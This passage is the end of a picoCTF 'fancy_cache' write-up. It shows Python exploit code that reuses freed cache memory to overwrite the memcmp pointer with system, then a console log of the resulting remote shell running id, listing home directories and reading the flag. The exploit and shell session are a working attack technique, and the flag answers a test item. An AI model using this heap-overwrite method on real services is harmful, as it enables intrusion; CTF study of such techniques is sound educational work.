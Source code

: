 ```python
# We'd love to abuse our old cache entry again, but alas, the memory regions have again been 
# freed(), due to cache_get seeing a lifetime <= 0.
# We'll restore them, so we can abuse them again to write to 0x804b014.

cache_get(f, pack4(4)+pack4(4)+pack4(0x804b014))
cache_get(f, pack4(6)+pack4(0)+pack4(0x8048310))

print "[+] Attempting to overwrite memcmp pointer..."
assert cache_set(f, 'printf', pack4(addr_system), 1)

print "[+] Running {} on remote box".format(cmd)
print cache_get2(f, cmd)

# Once you get the service to run a shell, this lets you send commands
# to the shell and get the results back :-)

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

Running it lands us a shell!

```bash
bas@tritonal:~/tmp/picoctf/fancy_cache$ python client.py 
AAAA____
[+] Leaking memcmp address: 0xf7686870
[+] Calculated system address: 0xf7584100
[+] Attempting to overwrite memcmp pointer...
[+] Running /bin/sh on remote box
None
id
uid=1009(fancy_cache) gid=1009(fancy_cache) groups=1009(fancy_cache)
ls /home/ 
bleichenbacher
easyoverflow
ecb
fancy_cache
guess
hardcore_owner
lowentropy
netsino
policerecords
ubuntu
ls /home/fancy_cache
fancy_cache
fancy_cache.sh
flag.txt
cat /home/fancy_cache/flag.txt
that_wasnt_so_free_after_all
```

The flag is `that_wasnt_so_free_after_all`. Fancy indeed!
